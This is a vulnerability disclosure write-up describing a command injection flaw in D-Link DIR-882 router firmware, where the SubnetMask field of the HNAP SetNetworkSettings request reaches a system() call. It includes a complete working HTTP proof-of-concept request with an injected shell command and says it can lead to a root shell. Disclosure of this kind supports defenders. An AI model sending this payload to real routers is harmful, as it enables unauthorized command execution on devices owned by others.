

# D-link DIR882A1_FW130B06.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version


Figure 1 shows the latest firmware Ba of the router

## Vulnerability details



The program obtains the content through the / setnetworksettings / SubnetMask parameter and passes it to v7


Then V7 formats the matched content into v39 through the sprintf function, and finally executes the content in v39 through the system function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR882A1_FW130B06.bin
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.5.1</IPAddress>
	<SubnetMask>&& ls > /tmp/456 &&echo 1</SubnetMask>
	<DeviceName>dlinkrouter</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

The reproduction results are as follows:


Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
